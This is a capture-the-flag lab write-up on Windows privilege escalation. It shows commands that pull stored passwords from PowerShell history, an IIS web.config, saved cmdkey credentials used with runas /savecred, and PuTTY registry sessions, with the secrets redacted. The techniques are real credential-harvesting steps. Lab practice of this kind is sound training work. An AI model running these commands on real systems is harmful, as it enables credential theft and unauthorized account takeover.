

## Exercises

### Question 1 — A password for the julia.jones user has been left on the Powershell history. What is the password?

I checked the PowerShell history file for any passwords users had typed directly into commands:

```cmd
C:\Users\thm-unpriv>type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
cmdkey /add:thmdc.local /user:julia.jones /pass:—REDACTED—
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
```

**Breakdown:**

- `type` prints the contents of a file to the console
- `AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` is a relative path to the history file, resolved from the current working directory (`C:\Users\thm-unpriv`, already `thm-unpriv`'s own profile folder)

The history shows someone had previously run `cmdkey /add:thmdc.local /user:julia.jones /pass:—REDACTED—`, adding a stored credential for `julia.jones` with the password typed directly on the command line. That password is `—REDACTED—`.

**Answer:** `—REDACTED—`

### Question 2 — A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

I pulled the IIS configuration file and filtered it down to just the connection string lines:

```cmd
C:\Users\thm-unpriv>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

                <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
                    <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
    <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=—REDACTED—" name="THM-DB" />
    </connectionStrings>
```

**Breakdown:**

- `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config` prints the full `web.config` file contents
- `|` pipes that output into the next command
- `findstr connectionString` filters the piped output down to lines containing the string `connectionString`

Most of the matches were just provider registrations mentioning `connectionStringName`, but the actual `<connectionStrings>` block held a real connection string: `Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=—REDACTED—`, giving the `db_admin` password directly.

**Answer:** `—REDACTED—`

### Question 3 — There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

I listed the credentials saved for the current user:

```cmd
C:\Users\thm-unpriv>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz
```

**Breakdown:**

- `cmdkey` manages stored usernames and passwords
- `/list` displays the credentials currently saved for the logged-on user, without revealing the actual password

This showed a saved domain password for `WPRIVESC1\mike.katz`, so I used `runas` with `/savecred` to spawn a shell under that account using the saved credential rather than typing a password:

```cmd
C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe

Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
```

**Breakdown:**

- `runas` runs a program under a different user account
- `/savecred` tells `runas` to use a credential already saved for this target user instead of prompting for one
- `/user:mike.katz` specifies the account to run as
- `cmd.exe` is the program launched under that account's context



This opened a second `cmd.exe` window running as `mike.katz`. I confirmed the identity in that new window:

```cmd
C:\Windows\system32>whoami

wprivesc1\mike.katz
```

With a shell as `mike.katz` confirmed, I navigated to his desktop and read the flag:

```cmd
C:\Windows\System32>cd /d %userprofile%/Desktop
C:\Users\mike.katz\Desktop>type flag.txt

—REDACTED—
```

**Breakdown:**

- `cd /d %userprofile%/Desktop` changes both the current drive and directory (`/d`) to the current user's Desktop folder — necessary here since `%userprofile%` now resolves to `mike.katz`'s profile inside this new shell, which sits on the same drive but a different directory than `C:\Windows\System32`
- `type flag.txt` prints the contents of the flag file on that desktop

**Answer:** `—REDACTED—`

### Question 4 — Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

I queried the registry for any saved PuTTY proxy credentials:

```cmd
C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    —REDACTED—
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1

End of search: 10 match(es) found.
```

**Breakdown:**

- `reg query` searches the registry
- `HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\` is the key where PuTTY stores its saved sessions, one subkey per session
- `/f "Proxy"` filters results to values whose name or data contains `Proxy`
- `/s` makes the search recurse into subkeys, so every saved session is checked

The one saved session (`My ssh server`, URL-encoded as `My%20ssh%20server`) held a full set of proxy settings, including `ProxyUsername thom.smith` and `ProxyPassword —REDACTED—` stored together in cleartext.

**Answer:** `—REDACTED—`